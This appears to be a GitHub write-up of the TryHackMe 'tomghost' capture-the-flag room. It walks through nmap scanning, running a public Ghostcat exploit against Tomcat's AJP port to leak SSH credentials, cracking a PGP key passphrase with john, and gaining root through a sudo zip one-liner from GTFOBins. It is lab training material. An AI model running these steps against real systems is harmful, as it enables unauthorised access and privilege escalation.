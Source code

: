 # TryHackMe-tomghost-CTF

Writeup for CTF tomghost avaiable on https://www.tryhackme.com (https://www.tryhackme.com/room/tomghost)

The challange is to find the flags contained user.txt and root.txt

First of all i will set bash variable for my ip and for victims ip so I will call them $V_IP (victims) $M_IP (my tryhackme vpn IP).

I will nmap scan the machine (I'm root so the scan would be syn scan by default) saving the output in nmap_syn_def

`nmap -A $V_IP -oN nmap_syn_def`

Output is:

> 22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
> 
> | ssh-hostkey: 
> |   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
> |   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
> |_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
> 
> 53/tcp   open  tcpwrapped
> 
> 8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
> | ajp-methods: 
> |_  Supported methods: GET HEAD POST OPTIONS
> 
> 8080/tcp open  http       Apache Tomcat 9.0.30
> |_http-favicon: Apache Tomcat
> |_http-open-proxy: Proxy might be redirecting requests
> |_http-title: Apache Tomcat/9.0.30

I will visit $V_IP:8080 and try to find hidden paths with dirb, but neither I found somethin useful neither I could access tomcat manager paths

On the web I found that "ghostcat" is vulnerability for Tomcat (here for details -> https://www.chaitin.cn/en/ghostcat)

using searchsploit i find a python script exploting this vulnerability, it requires victim ip and ajp tomcat port as parameters, I copied it in my working directory and ran it:

`python 48143.py -p 8009 $V_IP`

It gives back some html containg some credentials:

> ...
>  <description>
>     Welcome to GhostCat
>	skyfu*k:<password>
>  </description>
> ...

 Those are valid ssh credentials for $V_IP so I'll use them to gain first access.
  
skyfu*k home directory contains two files: "credential.pgp" "tryhackme.asc", I will inspect them later, first step I use find to locate "user.txt" as I'm expecting to need no more exploitation to find it. In fact it's in user merlin's home.
  
Now it's time to inspect the other files, pgp is actually a gpg encrypted file and I guess tryhackme.asc is the secret key that you need to use for decryption.

I will import it:
  
`gpg --import tryhackme.asc`
  
and try to decpryt credential file:
  
`gpg --decpryt credentials.pgp`
  
output is:
  
>You need a passphrase to unlock the secret key for
>user: "tryhackme <stuxnet@tryhackme.com>"
>1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)
>
>gpg: gpg-agent is not available in this session
>Enter passphrase: 
  
I return to my host shell in order to get the secret key via scp:
  
`scp skyfuc*k$V_IP:/home/skyfu*k/tryhackme.asc .`
  
I will use gpg2john to obtain a john crackable file and crack it using rockyou.txt wordlist
  
`gpg2john tryhackme.asc > pgphash`
 
`john pgphash --wordlist=/usr/share/wordlist/rockyou.txt`
  
 It cracks the passphrase for user tryhackme, I'll go back to victims machine and use it to gpg decrypt credental.pgp, I've obtained the password for user merlin.
  
 I will now ssh into the victims machine using merlin's credentials.
  
 I will look at merlin sudo's permissions:
 
 `sudo -l -l`
  
  output is:
  
>  Matching Defaults entries for merlin on ubuntu:
 >   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

>User merlin may run the following commands on ubuntu:
 >   (root : root) NOPASSWD: /usr/bin/zip
  
  I'll go to GTFOBins to see if I can use it to do some escalation (https://gtfobins.github.io/gtfobins/zip/#sudo)

I'll use what I found:
  
`sudo zip $(mktemp -u) /etc/hosts -T -TT 'sh #'`
`whoami`
> root
  
Now I'm able to cat /root/root.txtand we're done
